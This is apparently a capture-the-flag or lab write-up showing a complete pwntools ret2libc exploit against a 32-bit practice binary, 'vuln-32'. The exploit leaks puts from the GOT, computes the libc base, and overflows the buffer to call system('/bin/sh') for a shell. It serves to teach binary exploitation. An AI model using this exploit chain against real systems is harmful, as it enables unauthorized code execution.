

# 📜 Exploit Write-up: 32-bit ret2libc on `vuln-32`

## 🔧 Binary Info
- Architecture: 32-bit (x86)
- Protection:
  - NX enabled ✅
  - ASLR enabled ✅
  - No PIE 
  - Dynamic linking ✅

## 🎯 Goal
- Leak the address of `puts()` from the Global Offset Table (GOT)
- Calculate the base address of `libc`
- Use a **ret2libc** technique to call `system("/bin/sh")`

---

## 🧪 Step-by-Step Explanation

### 1. **Initial Setup**
```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
libc = elf.libc
p = process()
````

* Load the ELF binary.
* Use pwntools' context for automatic architecture detection.
* Start the process locally.

```

### 2. **Leak `puts()` Address**

```python
p.recvline()
```

* Receive the initial line to sync with the process I/O.

```python
payload = flat(
    'A' * 32,
    elf.plt['puts'],
    elf.sym['main'],
    elf.got['puts']
)
```

* Overflows the buffer (32 bytes to reach return address).
* ROP chain:

  * Return to `puts@plt`
  * Return to `main()` after `puts` prints
  * Pass `puts@got` as an argument → leaks the real libc address

```python
p.sendline(payload)
puts_leak = u32(p.recv(4))
p.recvlines(2)
```

* Receive 4 bytes leaked from `puts(puts@got)`.
* Parse them as a little-endian 32-bit address.

---

### 3. **Calculate libc Base**

```python
libc.address = puts_leak - libc.sym['puts']
log.success(f'LIBC base: {hex(libc.address)}')
```

* Subtract known offset of `puts` from the leak.
* Now you can resolve any libc symbol dynamically.

---

### 4. **Send Final Payload: system("/bin/sh")**

```python
payload = flat(
    'A' * 32,
    libc.sym['system'],
    libc.sym['exit'],
    next(libc.search(b'/bin/sh\x00'))
)
```

* Overflow again
* Chain:

  * Call `system("/bin/sh")` to spawn a shell
  * Optionally call `exit()` for graceful exit
  * `/bin/sh` is found dynamically in libc

```python
p.sendline(payload)
p.interactive()
```

* Send final payload
* Switch to interactive mode → get a shell 🐚

---

## ✅ Result



---

## 🧠 Notes

* Works only if:

  * Binary is not PIE (so addresses like `main()` are fixed)
  * You have the correct `libc` (or can identify it from leaks)
* If binary is remote or using a different libc, use tools like `libc-database` to identify the correct version.

